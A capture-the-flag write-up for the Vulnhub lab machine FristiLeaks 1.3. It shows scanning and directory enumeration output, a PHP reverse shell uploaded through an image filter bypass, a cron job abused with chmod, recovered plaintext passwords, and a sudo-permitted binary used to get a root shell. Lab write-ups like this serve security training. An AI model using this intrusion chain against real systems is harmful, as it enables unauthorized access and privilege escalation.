



# Information

- Name:  FristiLeaks: 1.3
- Date release: 14 Dec 2015
- Author: Ar0xA
- Series: FristiLeaks
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/fristileaks-13,133/
- Difficulty: Easy

# Write Up
## Enumeration
### Host Discovery
Host Discovery is perfomed using [arpScan](https://github.com/aalmeidar/Tools/) in fast mode. The ip of the vulnerable machine is _192.168.1.33_.  
```Console
# python arpScan.py -m 2
[*] b4:5f:84:f0:6c:ac 192.168.1.1
[*] 00:d8:61:59:bf:29 192.168.1.128
[*] 08:00:27:a5:a6:76 192.168.1.133
[*] c2:6c:f3:3d:5c:69 192.168.1.129
[*] 3e:d3:35:c8:1e:0a 192.168.1.131
```
### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools). The tool has found the port 80 open, so there is a web.
```Console
# python portScanner.py -i 192.168.1.133
[*] Port 80 (http) open
```

### Web
You can take a quick look at the technologies used on the web with _What Web_. In the output it is observed: Apache 2.2.15, CentOS, PHP 5.3.3

```Console
# whatweb http://192.168.1.133
http://192.168.1.133 [200 OK] Apache[2.2.15], Country[RESERVED][ZZ], HTTPServer[CentOS][Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3], IP[192.168.1.133], PHP[5.3.3], WebDAV[2]
```

If you look through a browser you don't see anything interesting in the index


To search for directories and files, _gobuster_ has been used with the directory-list-2.3-medium.txt directory
```Console
gobuster dir -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 40 -u http://192.168.1.133
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.133
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2022/08/30 12:06:26 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 703]
/images               (Status: 301) [Size: 236] [--> http://192.168.1.133/images/]
/robots.txt           (Status: 200) [Size: 62]
/beer                 (Status: 301) [Size: 234] [--> http://192.168.1.133/beer/]
/cola                 (Status: 301) [Size: 234] [--> http://192.168.1.133/cola/]

===============================================================
2022/08/30 12:11:00 Finished
===============================================================
```

None of them are relevant. After a few attempts, /fristi is a directory with login.


In the source code of the page there are several base64 strings.


If if converted to an image you get: keKkeKKeKKeKeKeKkEkkEkkEk. If you check the comments, you will find a user eezeepz. The login is successful and allows us to upload a image.


## Exploitation

You can upload a reverse shell in php by naming the file as \*.php.png. We access the system as _apache_. In /etc/passwd there are some users such as fristi, fristigod, admin.

```Console
sh-4.1$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
saslauth:x:499:76:Saslauthd user:/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
vboxadd:x:498:1::/var/run/vboxadd:/bin/false
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
fristi:x:503:100::/var/www:/sbin/nologin
```
## Privilege Escalation

In the directory /home/eezeepz there is a note.

```Console
sh-4.1$ cat notes.txt
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.
```
It is possible to change the permissions of /home/admin to gain access with "runthis" (chmod 777 /home/admin). Inside the directory there is a password encrypted with a script which performs string -> base64 -> reverse -> rot13.
The password obtained is thisisalsopw123 . In addition, there is a file _whoisyourgodnow.txt_ which is encrypted in the same way; inside it says LetThereBeFristi!

We get a tty and login as admin:thisisalsopw123 and fristigod:LetThereBeFristi!:

In /var/fristigod there is a secret directory ".secret_admin_stuff" with a file "doCom". If you execute the script, the output is "wrong user :)"

but if you check /var/fristigod/.bash_history or run _sudo -l_ you will see that it can be run:
```Console
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
Usage: ./program_name terminal_command ...
```
With this we can obtain a shell as root with:

```Console
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
bash-4.1# whoami
root
```


